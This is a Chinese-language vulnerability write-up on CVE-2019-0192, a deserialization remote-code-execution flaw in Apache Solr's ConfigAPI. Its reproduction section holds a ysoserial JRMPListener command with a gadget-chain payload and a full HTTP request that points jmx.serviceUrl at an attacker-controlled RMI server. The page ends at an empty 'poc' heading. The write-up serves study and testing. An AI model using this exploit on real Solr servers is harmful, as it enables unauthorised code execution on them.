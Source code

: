 ```yaml
---
title: "（CVE-2019-0192）Apache Solr Deserialization 远程代码执行漏洞"
id: zhfly2825
---
```


# （CVE-2019-0192）Apache Solr Deserialization 远程代码执行漏洞

## 一、漏洞简介

Apache Solr中的ConfigAPI允许设置一个jmx.serviceUrl，它将创建一个新的JMXConnectorServerFactory，并通过“绑定”操作触发对目标RMI/LDAP服务器的调用。恶意的RMI服务器可以响应任意的对象，这些对象将在Solr端使用java的ObjectInputStream反序列化，这被认为是不安全的。这种类型的漏洞可以利用ysoserial工具。根据目标类路径，攻击者可以使用其中一个“gadget chain”来触发Solr端上的远程代码执行。

## 二、漏洞影响

Apache Solr 5.0.0 to 5.5.5

Apache Solr 6.0.0 to 6.6.5

## 三、复现过程

下载Apache Solr 5.5.3版本作为靶机（注意，一定要使用jre7u25以下jre），执行**solr -e techproducts -Dcom.sun.management.jmxremote**指令开启服务。

使用ysoserial工具，执行**Java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 12363 Jdk7u21 "calc"**指令，监听***12363***端口。然后传入以下数据：

```
POST /solr/techproducts/config HTTP/1.1

Host: [0-sec.org:8983](http://0-sec.org:8983)

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:62.0) Gecko/20100101 Firefox/62.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2

Content-type:application/json

Connection: close

Upgrade-Insecure-Requests: 1

Content-Length: 91 `{“set-property” : {“jmx.serviceUrl” : “service:jmx:rmi:///jndi/rmi://127.0.0.1:12363/obj”}}` 
```

### poc
